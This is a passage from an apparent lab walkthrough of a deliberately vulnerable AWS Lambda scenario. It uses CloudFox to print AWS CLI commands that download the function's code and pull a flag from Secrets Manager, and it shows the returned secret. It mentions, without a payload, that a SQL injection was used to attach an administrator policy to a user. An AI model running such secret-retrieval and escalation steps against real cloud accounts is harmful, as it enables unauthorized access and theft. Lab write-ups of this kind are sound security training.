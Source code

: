 cloudfox was kind enough to print out the AWS CLI commands necessary to download
the function code. We simply need to make some minor tweaks for it to work 
properly (especially with `aws-vault`).  

```bash
cat cloudfox-output/aws/REDACTED/loot/lambda-get-function-commands.txt
#############################################
# The profile you will use to perform these commands is most likely not the profile you used to run CloudFox
# Set the $profile environment variable to the profile you are going to use to inspect the buckets.
# E.g., export profile=dev-prod.
#############################################

=============================================
# Lambda Name: vulnerable_lambda_cgidlbywef16bt-policy_applier_lambda1

# Get function metadata including download location
aws --profile $profile --region us-east-1 lambda get-function --function-name vulnerable_lambda_cgidlbywef16bt-policy_applier_lambda1
# Download function code to to disk (requires jq and curl) 
mkdir -p ./lambdas/vulnerable_lambda_cgidlbywef16bt-policy_applier_lambda1
url=`aws --profile $profile lambda get-function --region us-east-1 --function-name vulnerable_lambda_cgidlbywef16bt-policy_applier_lambda1 | jq .Code.Location | sed s/"//g` && curl "$url" -o ./lambdas/vulnerable_lambda_cgidlbywef16bt-policy_applier_lambda1.zip
```

Exploitation of the SQL injection bug in this Lambda function needs to be done
manually. Once the AdministratorAccess managed policy has been attached to the 
`bilbo` user, we can use the `secrets` cloudfox command to retrieve the flag.

```bash
cloudfox aws secrets                  
```

```bash
cat cloudfox-output/aws/REDACTED/loot/pull-secrets-commands.txt                           
#############################################
# The profile you will use to perform these commands is most likely not the profile you used to run CloudFox
# Set the $profile environment variable to the profile you are going to use to pull the secrets/parameters.
# E.g., export profile=dev-prod.
#############################################

aws --profile $profile --region us-east-1 secretsmanager get-secret-value --secret-id vulnerable_lambda_cgidlbywef16bt-final_flag
```

```bash
aws --region us-east-1 secretsmanager get-secret-value --secret-id vulnerable_lambda_cgidlbywef16bt-final_flag
```

```json
{
    "ARN": "arn:aws:secretsmanager:us-east-1:REDACTED:secret:vulnerable_lambda_cgidlbywef16bt-final_flag-Sif8pD",
    "Name": "vulnerable_lambda_cgidlbywef16bt-final_flag",
    "VersionId": "4388D5FC-A56B-457A-8FF6-0D4CBBFF9CD1",
    "SecretString": "cg-secret-846237-284529",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2023-01-09T19:54:47.793000-05:00"
}
```
